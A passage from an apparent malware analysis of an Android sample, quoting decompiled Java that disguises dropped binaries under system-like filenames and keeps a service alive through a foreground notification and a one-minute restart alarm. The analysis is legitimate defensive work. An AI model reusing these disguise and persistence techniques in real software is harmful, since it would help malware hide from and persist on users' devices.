 >	}
>	return false;
>}
> ```

We can see that binaries a copied in the directory `data`, removed from the external storage, and then executed.

The names are randomly chosen among this set of names, making think about system files:

> ```java
>private static String[] names = {
>	"update.dat",
>	"settings.bin",
>	"update.bin",
>	"settings.dat",
>	"kernel.bin",
>	"core.bin",
>	"core.sys",
>	"hot_fix.dat",
>	"android.bin",
>	"sys.bin",
>	"inet.dat",
>	"wifi.bin",
>	"fix.bin",
>	"sys_driver.sys",
>	"lock.dat" };
> ```

### Non-rooted device

If the device is not rooted, it's more complicated. First, a service is launched:

> ```java
>private boolean InstallAsNonRoot(){
>	if (!IsMyServiceRunning(SystemService.class)) {
>		startService(new Intent(this, SystemService.class));
>	}
>	PendingIntent pendingIntent = PendingIntent.getBroadcast(this, 0, new Intent("INTENT_CPS_SERVICE_RESTART"), 0);
>	AlarmManager alarmManager = (AlarmManager)getSystemService(ALARM_SERVICE);
>	alarmManager.cancel(pendingIntent);
>	alarmManager.setRepeating(AlarmManager.RTC_WAKEUP, System.currentTimeMillis(), 60000L, pendingIntent);
>	return true;
>}
> ```

In the `onStartCommand` routine of this service, some interesting tasks are performed:

> ```java
>public int onStartCommand(Intent paramIntent, int flags, int startId){
>	startForeground(1, new Notification());
>	getApplicationContext().startService(new Intent(getApplicationContext().getApplicationContext(), StartService.class));
>	Work();
>	StartInstallHandrler();
>	SharedPreferences preferences = Utilities.GetPreferences(getApplicationContext());
>	SharedPreferences.Editor editor = Utilities.GetPreferncesEditor(getApplicationContext());
>	if (!preferences.contains("SHARED_PREF_KEY_KNOCKED")) {
>		editor.putInt("SHARED_PREF_KEY_KNOCKED", 100);
>		editor.commit();
>		Knock();
>	}
>	registerReceiver(new BroadcastReceiver(){
>		public void onReceive(Context paramAnonymousContext, Intent paramAnonymousIntent){